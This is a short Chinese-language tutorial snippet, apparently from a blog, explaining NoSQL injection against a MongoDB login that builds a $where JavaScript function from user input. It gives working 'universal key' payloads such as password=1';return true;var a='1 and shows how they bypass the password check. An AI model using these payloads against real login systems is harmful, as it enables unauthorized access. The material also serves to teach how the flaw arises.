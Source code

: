 我们正常传输入

java脚本是

```cobol
function() {
    var name = 'admin';
    var password = 'admin123';
    if(name == 'admin' && password == 'admin123'){
        return true;
    }else{
        return false;
    }
}
 
 
然后进入数据库
 
db.admin.find({$where:function() {
    var name = 'admin';
    var password = 'admin123';
    if(name == 'admin' && password == 'admin123'){
        return true;
    }else{
        return false;
    }
  }
})
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d75a615f1a9e781f18ed46a796ad5345.png" alt="" style="max-height:411px; box-sizing:content-box;" />
那么这里我们使用注入呢

我们构造万能钥匙

```cobol
username=1&password=1';return true;var a='1
username=1&password=1';return true//
进入javascrip为

$function = "function() {
    var name = '1';
    var password = '1';return true;var a='1';
    if(name == 'admin' && password == 'admin123'){
        return true;
    }else{
        return false;
    }
}";

美化后
$function = "function() {
    var name = '1';
    var password = '1';
    return true;
    var a='1';
    if(name == 'admin' && password == 'admin123'){
        return true;
    }else{
        return false;
    }
}";

这里可以发现 直接return ture 所以绕过了下面的判断
```